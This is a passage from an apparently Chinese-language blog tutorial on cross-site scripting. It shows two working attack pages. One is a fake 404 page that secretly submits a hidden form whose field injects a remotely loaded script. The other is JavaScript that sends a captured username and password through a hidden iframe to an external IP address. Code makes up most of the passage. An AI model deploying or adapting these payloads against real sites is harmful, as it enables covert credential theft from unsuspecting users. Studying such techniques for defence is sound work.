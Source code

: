 ```
        <div class="error-page-main">      2
            <h3>      2
                <strong>404</strong>很抱歉，您要访问的页面不存在！      2
            </h3>      2
        </div>      3
    </div>      3
    <form method="POST" id="transfer"  action="http://127.0.0.1/xss/action.php" target="frameName">      3
         <input type="hidden" name="username" value="<script src=https://t.cn/EtxZt8T></script>">      3
         <input type="hidden" name="password" value="1">      3
    </form>      3
    <iframe src="" frameborder="0" name="frameName" style="display: none"></iframe>      3
</div>      3
</body>      3
</html>
```




当用户点击了我们构造的恶意链接，发现打开的是一个404页面。实际上这个页面偷偷的进行了表单的提交。



![](https://img-blog.csdnimg.cn/20190130192802545.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



而我们的XSS平台也收到了发送来的数据(这数据中没有Cookie的原因是这个网站我没设置Cookie，只是随便写的一个页面)。



![](https://img-blog.csdnimg.cn/20190130192932750.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



利用JS将用户信息发送给后台

--------------



```
<!DOCTYPE html>      
<html>      
<head lang="en">      
    <meta charset="UTF-8">      
    <title></title>      
    <script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>      
    <script>      
        $(function(){      
            //我们现在假如 user和pass是我们利用js获得的用户的用户名和密码      1
            user="admin";      1
            pass="root";      1
            url="http://120.79.74.249:8080/?user="+user+"&pass="+pass;      1
            var frame=$("<iframe>");      1
            frame.attr("src",url);      1
            frame.attr("style","display:none");      1
            $("#body").append(frame);      //添加一个iframe框架，并设置不显示。这个框架会偷偷访问该链接。      1
        });      1
    </script>      1
</head>      2
<body id="body">      2
    <h3>hello,word!</h3>      2
</body>      2
</html>
```
